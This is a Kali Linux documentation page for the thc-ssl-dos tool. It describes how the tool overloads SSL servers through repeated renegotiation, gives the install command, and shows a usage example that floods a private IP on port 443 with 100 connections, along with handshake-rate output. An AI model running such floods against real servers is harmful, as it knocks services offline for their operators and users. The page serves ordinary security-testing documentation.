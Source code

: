 ```yaml
---
Title: thc-ssl-dos
Homepage: http://www.thc.org/thc-ssl-dos/
Repository: https://gitlab.com/kalilinux/packages/thc-ssl-dos
Architectures: any
Version: 1.4-1kali3
Metapackages: kali-linux-everything kali-linux-large kali-tools-vulnerability kali-tools-web 
Icon: /images/kali-tools-icon-missing.svg
PackagesInfo: |
 ### thc-ssl-dos
 
  THC-SSL-DOS is a tool to verify the performance of SSL.
   
  Establishing a secure SSL connection requires 15x more processing
  power on the server than on the client.
   
  THC-SSL-DOS exploits this asymmetric property by overloading the
  server and knocking it off the Internet.
   
  This problem affects all SSL implementations today. The vendors are aware
  of this problem since 2003 and the topic has been widely discussed.
   
  This attack further exploits the SSL secure Renegotiation feature
  to trigger thousands of renegotiations via single TCP connection.
 
 **Installed size:** `36 KB`  
 **How to install:** `sudo apt install thc-ssl-dos`  
 
 {{< spoiler "Dependencies:" >}}
 * libc6 
 * libpcap0.8
 * libssl3 
 * openssl
 {{< /spoiler >}}
 
 ##### thc-ssl-dos
 
 
 ```
 root@kali:~# thc-ssl-dos -h
      ______________ ___  _________
      \__    ___/   |   \ \_   ___ \
        |    | /    ~    \/    \  \/
        |    | \    Y    /\     \____
        |____|  \___|_  /  \______  /
                      \/          \/
             http://www.thc.org
 
           Twitter @hackerschoice
 
 Greetingz: the french underground
 
 ```
 
 - - -
 
---
```

{{% hidden-comment "<!--Do not edit anything above this line-->" %}}

## thc-ssl-dos Usage Example

Using 100 connections (`-l 100`), flood the target IP (`192.168.1.208`) and port (`443`):

```
root@kali:~# thc-ssl-dos -l 100 192.168.1.208 443 --accept
     ______________ ___  _________
     \__    ___/   |   \ \_   ___ \
       |    | /    ~    \/    \  \/
       |    | \    Y    /\     \____
       |____|  \___|_  /  \______  /
                     \/          \/
            http://www.thc.org

          Twitter @hackerschoice

Greetingz: the french underground

Waiting for script kiddies to piss off................
The force is with those who read the source...
Handshakes 0 [0.00 h/s], 1 Conn, 0 Err
Handshakes 2 [2.90 h/s], 6 Conn, 0 Err
Handshakes 25 [22.42 h/s], 13 Conn, 0 Err
Handshakes 70 [43.97 h/s], 20 Conn, 0 Err
Handshakes 125 [56.51 h/s], 27 Conn, 0 Err
Handshakes 185 [62.09 h/s], 33 Conn, 0 Err
Handshakes 262 [74.56 h/s], 41 Conn, 0 Err
Handshakes 365 [104.93 h/s], 47 Conn, 0 Err
Handshakes 496 [131.23 h/s], 54 Conn, 0 Err
```
